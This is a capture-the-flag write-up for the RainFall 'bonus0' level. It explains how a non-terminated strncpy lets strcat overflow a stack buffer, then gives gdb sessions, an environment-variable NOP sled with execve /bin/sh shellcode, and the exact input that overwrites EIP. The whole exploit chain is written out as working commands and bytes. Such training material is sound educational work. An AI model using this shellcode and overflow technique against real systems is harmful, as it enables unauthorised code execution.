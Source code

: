 # Bonus 0

In pp we can see that a string is read into a 4096 characters size buffer and a  NULL terminator is placed if there's a newline before 10 characters in and a call to strncpy.
`man strncpy` tells us that if there's no '\0' within n characters the string won't be NULL terminated. 
Which means we can blow past the 20 char limit and get strcat to return a + b + space char + b, overflowing the buffer in main.

```shell
(gdb) br *main+28
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
aaaaaaaaaaaaaaaaaaaaa
 -
bb
Breakpoint 1, 0x080485c0 in main ()
(gdb) x/s $esp+0x16
0xbffff6e6:      'a' <repeats 20 times>, "bb bb"
(gdb) c
Continuing.
aaaaaaaaaaaaaaaaaaaaabb bb
Inferior 1 (process 5768) exited normally]
```
We can see that the b string is repeated twice.

## Using the env
Let's put our [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) after a safety NOP slide into the env, we'll try to replace it's address with `EIP` afterwards

```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
Let's now get it's address within gdb and add some margin, this will keep it working even if the env changes slightly.

```shell
bonus0@RainFall:~$ gdb -q ./bonus0 
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) p (char*)getenv("PWN")
$1 = 0xbffffd2c "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
```
The address of PWN in gdb's env is 0xbffffd2c, let's give ourselves a margin of 0x40 -> 0xBFFFFD6C

Let's now replace EIP with that address
```shell
bonus0@RainFall:~$ (python -c 'print "a"*20'; python -c 'print "b"*14 + "\x6c\xfd\xff\xbfa"'; cat -) | ./bonus0 
address is within the env to account for changes
```
Bingo!
